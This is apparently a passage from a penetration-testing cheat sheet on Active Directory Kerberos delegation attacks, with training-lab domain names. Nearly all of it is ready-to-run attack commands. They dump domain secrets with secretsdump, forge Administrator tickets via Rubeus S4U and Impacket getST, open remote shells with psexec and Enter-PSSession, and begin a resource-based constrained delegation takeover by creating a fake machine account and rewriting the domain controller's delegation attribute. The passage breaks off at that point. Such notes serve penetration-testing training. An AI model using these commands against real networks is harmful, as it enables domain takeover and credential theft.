 ```bash
export KRB5CCNAME=./DC01\$@INLANEFREIGHT.LOCAL_krbtgt@INLANEFREIGHT.LOCAL.ccache
secretsdump.py -k -no-pass dc01.zencorp.local
```

### <mark style="color:yellow;">Constrained Delegation</mark>

From windows

```powershell
# Constrained delegation with Rubeus
.\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:www/WS01.zencorp.local /altservice:HTTP /user:DMZ01$ /rc4:c48771baa19sfsa0e8045fbafd0b52d0 /ptt

# Get remote shell
Enter-PSSession ws01.inlanefreight.local
```

From Linux

```bash
# Find accounts with delegation privs
findDelegation.py INLANEFREIGHT.LOCAL/john.doe:pass123

# Get a valid TGS
getST.py -spn TERMSRV/DC01 'ZENCORP.LOCAL/roger.jones:p@ss123$' -impersonate Administrator

# Using the ticket
export KRB5CCNAME=./Administrator.ccache
psexec.py -k -no-pass ZENCORP.LOCAL/administrator@DC01 
```

### <mark style="color:yellow;">Resource-based constrained delegation (RBCD) from Windows</mark>

<details><summary>Search for users</summary></details>

{% hint style="info" %}
The easiest way to obtain an object with SPN is to use a computer, even by making a fake computer.&#x20;
{% endhint %}

#### Create a computer account

```powershell
# Import PowerMad
Import-Module .\Powermad.ps1

# Create computer account
New-MachineAccount -MachineAccount ZENPC -Password $(ConvertTo-SecureString "pass132" -AsPlainText -Force)
$ComputerSid = Get-DomainComputer ZENPC -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
$credentials = New-Object System.Management.Automation.PSCredential "ZENCORP\john.doe", (ConvertTo-SecureString "pass123" -AsPlainText -Force)
Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Credential $credentials -Verbose
```
